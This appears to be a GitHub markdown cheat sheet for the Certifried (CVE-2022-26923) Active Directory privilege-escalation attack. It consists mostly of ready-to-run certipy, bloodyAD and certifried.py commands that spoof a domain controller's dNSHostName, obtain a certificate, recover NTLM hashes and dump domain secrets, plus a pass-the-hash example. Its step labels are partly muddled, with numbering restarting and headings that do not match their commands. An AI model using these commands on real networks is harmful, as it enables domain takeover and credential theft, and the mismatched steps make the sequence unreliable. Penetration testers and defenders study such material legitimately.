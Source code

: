 # Certifried CVE-2022-26923

### An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

## Enumeration

 - certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'

### If Certipy doesn't print Certificate object SID is [...] after obtaining the certificate, then the attack can be conducted.

## Exploitation

#### 1) Clearing the SPNs

 - bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME serviceprincipalname

#### 2) Setting the dNSHostName value to the name of a computer account to impersonate

 - bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME dnsHostName -v '$DC_NAME.$DOMAIN'

#### 3) Verifying the dNSHostName value and SPN entries

 - bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP get object $COMPUTER_NAME --attr dnsHostName,serviceprincipalname

#### 4) Adding a computer account and setting the dNSHostName to impersonate

 - certipy account create -u "$USER"@"$DOMAIN" -p "$PASSWORD" -user "$COMPUTER_NAME" -pass "$COMPUTER_PASS" -dns "$DC_NAME.$DOMAIN"

#### 1) Request certificate manually

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 (Add the computer and update necessary attributes)

#### 2) Recover NTLM Hash

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap (Request the certificate manually)

### Proceed with secretsdump

#### 3) After obtaining the NTLM hash, proceed with dumping secrets

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump

#### 4) Modify computer account

 - python3 modify_computer.py range.net/ws01\$@192.168.86.182 -hashes :0e3ae07798e1bc9e02b049a795a7e69f (In case you obtain a machine account hash, modify the computer account.)
